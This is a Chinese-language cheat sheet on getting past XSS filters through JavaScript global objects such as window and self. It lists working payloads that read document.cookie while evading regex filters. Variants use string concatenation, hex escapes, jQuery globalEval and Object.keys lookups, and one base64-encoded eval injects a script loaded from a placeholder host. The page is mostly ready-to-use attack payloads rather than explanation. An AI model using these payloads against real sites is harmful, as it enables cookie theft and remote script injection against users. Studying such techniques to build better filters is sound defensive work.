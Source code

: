 # 利用全局变量绕过xss防护

### 1. 全局变量的概念

本来可获取cookie的payload

* document.cookie
* cocument . cookie
* doument/_foo_/./_bar_/cookie

但是过滤器使用的正则表达式，形如`/document[^.].[^.]cookie`。可以使用下面的payload

* window\['document'\]\['cookie'\]
* window\['alert'\]\(window\['document'\]\['cookie'\]\)
* self\["document"/_bar_/\]\["cookie"\]
* self\[/_foo_/"alert"\]\(self\["document"/_bar_/\]\["cookie"\]\)
* \(/ _this is a comment_ /self/ _foo_ /\)\[/_bar_/"alert"/\*\*/\]\("yo"\)

Window.self的只读属性可以将window对象本身以WindowProxy返回，它能够以`window.self`或直接是`self`的形式来使用。这种单独标注的使用形式有点就在于它跟非window对象的使用场景很相似，使用`self`，我们就可以尝试找到非window对象的使用场景，因为`self`会被解析为`window.self`。比如说Web Workers，在worker场景下，`self`将会被解析为`WorkerGlobalScope.self`。

我们可以利用以下对象来调用任何一种JavaScript函数：

window、 self 、\_self、 this 、top、 parent、 frames

### 2. 字符串连接绕过

```text
self['ale'+'rt']('a')
self['ale'+'rt'](self)
```

### 3. 转为16进制

```text
self['\x61\x6c'+'\x65\x72\x74']('a')
self["\x61\x6c\x65\x72\x74"](self["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x63\x6f\x6f\x6b\x69\x65"])
```

### 4. Base64编码字符串

```text
self["\x65\x76\x61\x6c"](
self["\x61\x74\x6f\x62"](
"dmFyIGhlYWQgPSBkb2N1bWVudC5nZXRFbGVtZW50\
c0J5VGFnTmFtZSgnaGVhZCcpLml0ZW0oMCk7dmFyI\
HNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbn\
QoJ3NjcmlwdCcpO3NjcmlwdC5zZXRBdHRyaWJ1dGU\
oJ3R5cGUnLCAndGV4dC9qYXZhc2NyaXB0Jyk7c2Ny\
aXB0LnNldEF0dHJpYnV0ZSgnc3JjJywgJ2h0dHA6L\
y9leGFtcGxlLmNvbS9teS5qcycpO2hlYWQuYXBwZW\
5kQ2hpbGQoc2NyaXB0KTs="))

等于

eval("var head = document.getElementsByTagName('head').item(0);\
    var script = document.createElement('script');\
    script.setAttribute('type', 'text/javascript');\
    script.setAttribute('src', 'http://example.com/my.js');\
    head.appendChild(script);"
)
```

### 5. 利用jQuery

```text
self["&"]["globalEval"]("alert(1)")
self["\x24"]
self["\x24"]["\x67\x6c\x6f\x62\x61\x6c\x45\x76\x61\x6c"]("\x61\x6c\x65\x72\x74\x28\x31\x29")
```

### 6. 迭代和Object.keys

Object.keys\(\)方法可以返回一个给定对象的names属性列表：

```text
c=0; for(i in self) { if(i == "alert") { console.log(c); } c++; }
> Object.keys(self)[148]
< "alert"
> self[Object.keys(self)[148]]("foo") // alert("foo")
```

```bash
# 枚举函数
f=""
for(i in self) {
    if(typeof self[i] === "function") {
        f += i+", "
    } 
};
console.log(f)

# 封装
a = function() {
    c=0; // index counter
    for(i in self) {
        if(/^a[rel]+t$/.test(i)) {
            return c;
        }
        c++;
    }
}

# in one line
a=()=>{c=0;for(i in self){if(/^a[rel]+t$/.test(i)){return c}c++}}

# then you can use a() with Object.keys
# alert("foo")

self[Object.keys(self)[a()]]("foo")
```

### 参考

* [https://www.anquanke.com/post/id/180187](https://www.anquanke.com/post/id/180187)


